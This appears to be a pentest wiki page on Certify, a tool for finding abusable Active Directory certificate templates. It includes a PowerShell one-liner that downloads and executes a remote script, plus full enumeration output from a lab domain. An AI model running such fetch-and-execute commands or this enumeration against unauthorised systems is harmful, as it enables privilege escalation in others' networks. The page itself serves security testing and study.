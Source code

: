 ```yaml
---
title : "Certify"
# pre : ' '
description : "Active Directory certificate abuse."
date : 2022-01-19T21:26:13+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'Active Directory', 'ADCS']
---
```


## Certify

Certify is a C# tool to enumerate and abuse misconfigurations in Active Directory Certificate Services (AD CS).

[@harmj0y](https://twitter.com/harmj0y) and [@tifkin_](https://twitter.com/tifkin_) are the primary authors of Certify and the the associated AD CS research ([blog](https://posts.specterops.io/certified-pre-owned-d95910965cd2) and [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)).

### Installation

Please compile the `.exe` yourself or use the PowerShell script below. The examples will use the PowerShell implementation.

```plain
iex((iwr https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Certify.ps1).content)
```

### Examples

#### Identify vulnerable PKIs

```plain
PS Z:\> Invoke-Certify -Command 'find /vulnerable'

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=offsec,DC.nl'

[*] Listing info about the Enterprise CA 'offsec-DC01PKI-CA'

    Enterprise CA Name            : offsec-DC01PKI-CA
    DNS Hostname                  : DC01PKI.offsec.nl
    FullName                      : DC01PKI.offsec.nl\offsec-DC01PKI-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=offsec-DC01PKI-CA, DC=offsec, DC.nl
    Cert Thumbprint               : 2CFF52459C3F6C9BD541FDDAF3CC6F0EA72671CC
    Cert Serial                   : 1C0000000565446F3BBD81156A000000000005
    Cert Start Date               : 12/20/2021 6:34:12 AM
    Cert End Date                 : 12/20/2026 6:44:12 AM
    Cert Chain                    : CN=DC01PKI-N1-CA -> CN=offsec-DC01PKI-CA,DC=offsec,DC.nl
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated Users S-1-5-11
      Allow  Read, Enroll                               NT AUTHORITY\NETWORK SERVICE  S-1-5-20
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
      Allow  ManageCA, ManageCertificates               offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
    Enrollment Agent Restrictions : None

[!] Vulnerable certificate templates that exist but an Enterprise CA does not publish:

    ConfigMgrWebServerCertificate


[!] Vulnerable Certificates Templates :

    CA Name                         : DC01PKI.offsec.nl\offsec-DC01PKI-CA
    Template Name                   : UsersOffsecAD
    Schema Version                  : 2
    Validity Period                 : 1 year
    Renewal Period                  : 6 weeks
    msPKI-Certificates-Name-Flag    : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag           : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required  : 0
    pkiextendedkeyusage             : Client Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Domain Users       S-1-5-21-497837788-612300594-3587273769-513
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
      Object Control Permissions
        Owner                       : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
        WriteOwner Principals       : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
                                      offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
        WriteDacl Principals        : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
                                      offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519
        WriteProperty Principals    : offsec\Administrator      S-1-5-21-497837788-612300594-3587273769-500
                                      offsec\Domain Admins      S-1-5-21-497837788-612300594-3587273769-512
                                      offsec\Enterprise Admins  S-1-5-21-497837788-612300594-3587273769-519

C3rt1fy completed in 00:00:01.1902168
```

### URL list

* [Github.com - Certify](https://github.com/GhostPack/Certify)
* [Github.com - Certipy](https://github.com/ly4k/Certipy)
